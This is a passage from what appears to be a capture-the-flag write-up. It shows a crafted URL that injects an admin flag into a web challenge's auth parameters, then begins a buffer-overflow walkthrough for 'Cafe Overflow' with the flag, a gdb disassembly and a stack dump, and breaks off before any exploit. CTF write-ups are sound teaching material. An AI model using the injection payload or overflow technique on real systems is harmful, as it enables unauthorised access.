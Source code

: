       - then, the url should be `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true%7D%26givemeflag=yes%23true`

## pwn - Cafe Overflow
> flag{c0ffee_0verfl0win6_from_k3ttle_QAQ}  
> [solution](./pwn/solve.py)

1. Start `gdb` and `disas main`.

   ```
   gdb-peda$ disas main
   Dump of assembler code for function main:
      0x00000000004011c6 <+0>:	push   rbp
      0x00000000004011c7 <+1>:	mov    rbp,rsp
   => 0x00000000004011ca <+4>:	sub    rsp,0x10
      ......
      0x0000000000401228 <+98>:	lea    rdi,[rip+0xdf9]        # 0x402028
      0x000000000040122f <+105>:	mov    eax,0x0
      0x0000000000401234 <+110>:	call   0x401050 <printf@plt>
      0x0000000000401239 <+115>:	lea    rax,[rbp-0x10]
      0x000000000040123d <+119>:	mov    rsi,rax
      0x0000000000401240 <+122>:	lea    rdi,[rip+0xdf6]        # 0x40203d
      0x0000000000401247 <+129>:	mov    eax,0x0
      0x000000000040124c <+134>:	call   0x401070 <__isoc99_scanf@plt>
      0x0000000000401251 <+139>:	lea    rax,[rbp-0x10]
      0x0000000000401255 <+143>:	mov    rsi,rax
      0x0000000000401258 <+146>:	lea    rdi,[rip+0xde1]        # 0x402040
      0x000000000040125f <+153>:	mov    eax,0x0
      0x0000000000401264 <+158>:	call   0x401050 <printf@plt>
      0x0000000000401269 <+163>:	lea    rax,[rbp-0x10]
      0x000000000040126d <+167>:	mov    rax,QWORD PTR [rax]
      0x0000000000401270 <+170>:	leave
      0x0000000000401271 <+171>:	ret
   End of assembler dump.
   ```

   From the assembler code, the program use `printf` to output some information and use `scanf` to get the input.

2. Observer the stack after `scanf`.

   ```
   [----------------------------------registers-----------------------------------]
   RAX: 0x1
   RBX: 0x0
   RCX: 0x7ffff7dd0560 --> 0x7ffff7dcc580 --> 0x7ffff7b99bce --> 0x636d656d5f5f0043 ('C')
   RDX: 0x7ffff7dd18d0 --> 0x0
   RSI: 0x1
   RDI: 0x0
   RBP: 0x7fffffffe580 --> 0x401280 (<__libc_csu_init>:	endbr64)
   RSP: 0x7fffffffe570 ("AAAAAAAA")
   RIP: 0x401251 (<main+139>:	lea    rax,[rbp-0x10])
   R8 : 0x0
   R9 : 0x0
   R10: 0x0
   R11: 0x40203f --> 0x202c6f6c6c654800 ('')
   R12: 0x401090 (<_start>:	endbr64)
   R13: 0x7fffffffe660 --> 0x1
   R14: 0x0
   R15: 0x0
   EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
   [-------------------------------------code-------------------------------------]
      0x401240 <main+122>:	lea    rdi,[rip+0xdf6]        # 0x40203d
      0x401247 <main+129>:	mov    eax,0x0
      0x40124c <main+134>:	call   0x401070 <__isoc99_scanf@plt>
   => 0x401251 <main+139>:	lea    rax,[rbp-0x10]
   ```